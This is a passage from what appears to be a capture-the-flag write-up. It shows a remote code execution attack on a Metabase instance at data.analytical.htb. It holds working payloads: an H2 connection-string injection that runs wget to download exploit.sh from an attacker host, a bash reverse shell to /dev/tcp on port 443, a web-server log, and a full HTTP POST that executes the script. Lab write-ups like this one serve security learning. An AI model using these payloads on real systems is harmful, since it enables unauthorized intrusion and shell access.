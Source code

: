 ```
            "db": "zip:/app/metabase.jar!/sample-database.db;MODE=MSSQLServer;TRACE_LEVEL_SYSTEM_OUT=1\\;CREATE TRIGGER pwnshell BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript\njava.lang.Runtime.getRuntime().exec('wget http://10.10.14.177/exploit.sh -O /tmp/exploit.sh')\n$$--=x",
            "advanced-options": false,
            "ssl": true
        },
        "name": "an-sec-research-team",
        "engine": "h2"
    }
}
```

To gain a reverse shell, we created a shell script.

```bash
┌──(kali㉿kali)-[~]
└─$ cat exploit.sh                                                                                                                                                                           
#!/bin/bash

bash -c 'bash -i >& /dev/tcp/10.10.14.177/443 0>&1' &
```

This script, when executed, would give us a reverse shell, allowing us to interact with the target system. We transferred this script to the `/tmp` directory using `wget`.

```
┌──(kali㉿kali)-[~]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.233 - - [21/Oct/2023 11:51:46] "GET /exploit.sh HTTP/1.1" 200 -
```

Once the script was ready, we set up a simple web server to serve it. The target system fetched the script via `HTTP`.

```
POST /api/setup/validate HTTP/1.1
Host: data.analytical.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: application/json
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/json
Connection: close
Referer: http://data.analytical.htb/auth/login?redirect=%2F
Cookie: metabase.DEVICE=4dfa8070-4391-4a8d-b301-b402e4c0b274
Content-Length: 747

{
    "token": "249fa03d-fd94-4d5b-b94f-b4ebf3df681f",
    "details":
    {
        "is_on_demand": false,
        "is_full_sync": false,
        "is_sample": false,
        "cache_ttl": null,
        "refingerprint": false,
        "auto_run_queries": true,
        "schedules":
        {},
        "details":
        {
            "db": "zip:/app/metabase.jar!/sample-database.db;MODE=MSSQLServer;TRACE_LEVEL_SYSTEM_OUT=1\\;CREATE TRIGGER pwnshell BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript\njava.lang.Runtime.getRuntime().exec('bash /tmp/exploit.sh')\n$$--=x",
            "advanced-options": false,
```